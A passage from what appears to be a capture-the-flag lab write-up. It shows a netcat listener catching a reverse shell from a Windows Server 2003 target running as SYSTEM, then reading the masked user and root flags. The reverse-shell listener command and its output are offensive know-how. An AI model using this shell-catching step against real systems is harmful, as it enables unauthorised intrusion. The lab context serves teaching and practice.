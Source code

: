 And on my listener:

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.14.
Ncat: Connection from 10.10.10.14:1038.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system

```

### Flags

From there I can grab both flags:

```

C:\Documents and Settings>type harry\desktop\user.txt
bdff5ec6************************
C:\Documents and Settings>type administrator\desktop\root.txt
9359e905************************

```